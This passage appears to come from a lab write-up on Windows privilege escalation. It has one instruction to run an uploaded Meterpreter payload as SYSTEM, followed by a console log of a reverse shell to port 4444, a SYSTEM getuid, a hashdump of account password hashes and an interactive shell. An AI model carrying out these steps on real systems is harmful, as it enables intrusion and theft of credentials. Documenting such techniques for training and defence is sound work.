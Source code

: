 
In the root netcat session, browse to `C:\Test` where the native Windows meterpreter payload binary `rshell.exe` was uploaded. Run that under the context of the SYSTEM account.

    [*] Sending stage (179267 bytes) to 192.168.0.102
    [*] Meterpreter session 22 opened (192.168.0.99:4444 -> 192.168.0.102:49167) at 2018-07-27 00:05:01 -0400
    
    
    msf exploit(handler) > sessions 23
    [*] Starting interaction with 23...
    
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    
    meterpreter > hashdump 
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    IEUser:1000:aad3b435b51404eeaad3b435b51404ee:888e46c1cae5cd127519b7b914f018ee:::
    
    meterpreter > shell
    Process 2540 created.
    Channel 1 created.
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\Test>time
    time
    The current time is: 21:06:21.90
    Enter the new time: 
    
    
    C:\Test>exit
    exit
    meterpreter > 

